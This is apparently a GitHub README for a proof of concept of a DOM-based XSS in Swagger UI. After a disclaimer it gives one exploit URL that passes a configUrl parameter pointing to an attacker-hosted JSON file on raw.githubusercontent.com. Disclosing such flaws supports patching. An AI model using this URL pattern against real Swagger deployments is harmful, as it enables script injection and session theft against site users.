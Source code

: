# PoC-of-Swagger-UI-DOM-XSSS

This project is shared with the intention of being used for positive and productive purposes only. Please note that I am not responsible for any malicious or unethical use of this project.

PoC:

https://website/swagger-ui.html?configUrl=https://raw.githubusercontent.com/mtkilicc/PoC-of-Swagger-UI-DOM-XSSS/main/test.json
